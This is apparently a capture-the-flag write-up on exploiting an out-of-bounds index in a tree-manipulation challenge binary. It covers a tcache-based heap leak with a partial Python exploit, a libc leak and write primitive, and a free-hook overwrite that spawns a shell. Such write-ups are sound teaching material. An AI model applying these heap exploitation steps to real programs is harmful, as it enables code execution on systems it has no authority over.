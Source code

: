 # The bug

The bug is a very obvious OOB that exists in the `select` function.

```
unsigned long select(sp *tree, int idx)
{
  struct node *e;

  e = tree->vector[idx];                          // OOB
  sp_select(tree, &e->tree_metadata);
  return e->y;
}
```

Basically, the `select` function takes the idx'th element from the vector and places it on top of the tree. By faking a node on a tree we can manipulate the entire tree structure.

# Heap Leak

Each node looks like this:

```
struct node {
	unsigned long x;
	unsigned long y;
	unsigned long unk1;
	unsigned long unk2;
	unsigned long idx;

	struct tree_metadata {
		struct tree_metadata *parent;
		struct tree_metadata *lchild;
		struct tree_metadata *rchild;
		unsigned long size;
	} meta;
};
```
And by using the given features we can get the contents of x and y in the nodes. This can be used for an infoleak. However, in order to fake a node we need to store a pointer pointing to it. I did this by using the freed chunks of `tcache`. In each freed chunk of tcache there is a pointer pointing to its `prev` chunk. By using this, we can get the `x` value of a freed chunk faked to a node, which is a heap address.


```
for i in range(5):
		add(i,i)

delete(0)
delete(1)
delete(2)
delete(3)
delete(4)

idx = (0x7fc6681fc370 - 0x7fc6681fb260)//8

select(idx)
HEAP = getnth(0)

log.info("HEAP: 0x%x"%HEAP) # 0x7f68373c72d0
```

# LIBC Leak and arbitrary write

After a long time of thinking, I decided to use a section of memory that has lots of NULLs but also contains some important pointers. It is important that the section has an abundance of NULLs so that the `select` function does not attempt to recurse to its parent or children. The ideal memory section that I thought of was the tcache structure, located in the heap base. 

```
void find_and_add(struct sp *tree, unsigned long incr, unsigned long x, unsigned long y)
{

  struct node *node = sp_isolate(tree, x, y);
  if ( node )
    *(_QWORD *)(node - 0x18) += a2;
}
```

By using this functionality, we can get a write primitive. By overwriting the tcache head to a pointer we can get a node allocated at an unsorted bin, and when we get the `x` value of it we get a libc address. 

# Getting a shell

Afterwards everything is easy, we can use the primitives discussed to get arbitrary write, overwriting `__free__hook` with `system` and calling `free("/bin/sh")`

